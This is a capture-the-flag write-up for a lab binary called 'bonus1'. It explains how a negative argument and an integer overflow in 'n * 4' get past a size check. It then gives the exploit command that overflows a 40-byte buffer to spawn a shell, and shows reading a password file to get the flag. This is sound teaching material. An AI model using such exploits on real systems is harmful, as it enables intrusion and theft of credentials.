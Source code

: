 # bonus1

The executable does the following :

- Sets `n = atoi(argv[1]`
- Verifies that `n < 10`
- Copies `n * 4` characters of `argv[2]` into a 40-byte buffer with `memcpy`
- If `n == 0x574f4c46`, executes `/bin/sh`

The buffer and `n` are consecutive, so we could easily set `n` by overflowing with the `memcpy`.

The issue is, since the buffer is 40 chars long, we'd need at least 44 bytes to overwrite `n`, but we'd be locked off by the `n < 10`. How can we bypass it ?

## **The trick**

We can use negative numbers to pass the check, and then take advantage of int overflows in `n * 4` !

For our `memcpy`, we'd like `n * 4 == 44`.

We can use the following logic : if you subtract `UNSIGNED_INT_MAX+1` to our number, it'll stay unchanged, because it'll loop. So we have :

```
    n * 4 = 44
<=> n * 4 = 44 - UNSIGNED_INT_MAX+1
<=> n * 4 = 44 - 4294967296
<=> n * 4 = -4294967252
<=> n = -1073741813
```

In C, `-1073741813 * 4` equals `44`.

## **The command**

Now we just need to set `argv[2]` to overflow into `n` ; we'll write 40 bytes of garbage followed by the value asked by the program, `0x574f4c46`.

We run :

```
./bonus1 -1073741813 $(python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")')
```


## **The flag**

It works ! In the interactive shell, we run :

```
cat /home/user/bonus2/.pass
```

We get the flag for `bonus1` :

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```